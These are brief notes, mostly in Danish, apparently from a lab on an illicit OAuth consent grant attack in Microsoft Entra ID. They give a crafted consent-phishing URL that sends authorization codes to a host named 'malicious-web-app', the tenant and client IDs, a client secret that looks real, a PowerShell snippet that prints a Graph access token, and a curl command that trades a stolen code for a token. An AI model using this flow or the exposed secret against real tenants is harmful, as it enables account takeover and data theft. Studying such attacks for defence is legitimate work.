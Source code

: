 lavede en webapp i Entra ID (AzureAD) og tilføjede nogle lidt "farlige" delegated permissions til den.

https://login.microsoftonline.com/5dc7e152-c906-4d95-bd1a-bcf75eb3e939/oauth2/v2.0/authorize?client_id=675c27b6-e1ff-4a2c-924e-701186f97951&response_type=code&redirect_uri=https://malicious-web-app.azurewebsites.net/.auth/login/aad/callback&scope=User.ReadWrite&response_mode=query&prompt=consent

Tenant ID
5dc7e152-c906-4d95-bd1a-bcf75eb3e939

Application (client) ID
675c27b6-e1ff-4a2c-924e-701186f97951

client Secret (Maliscious)
eV68Q~WEECCIzSJKzATfkd2rly.Kxds1SFzNDbyg

Redirect URIs
https://malicious-web-app.azurewebsites.net/.auth/login/aad/callback


**while connected in `Connect-AzAccount`**
$context = Get-AzContext

$token = (Get-AzAccessToken -ResourceUrl "https://graph.microsoft.com").Token

Write-Output $token = eyJ0eXAiOiJKV1QiLCJub25jZSI6InJObkdLbVU0WmF3R0YwaWxOVk1nMDM0TUdVa2pjOFRIY001QXVhd2t0UEUiLCJhbGciOiJSUzI1...



```bash
curl -X POST "https://login.microsoftonline.com/YOUR_TENANT_ID/oauth2/v2.0/token" \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -d "client_id=675c27b6-e1ff-4a2c-924e-701186f97951" \
  -d "client_secret=YOUR_CLIENT_SECRET" \
  -d "grant_type=authorization_code" \
  -d "code=AUTHORIZATION_CODE_FROM_URL" \
  -d "redirect_uri=https://malicious-web-app.azurewebsites.net/.auth/login/aad/callback" \
  -d "scope=User.ReadWrite"
```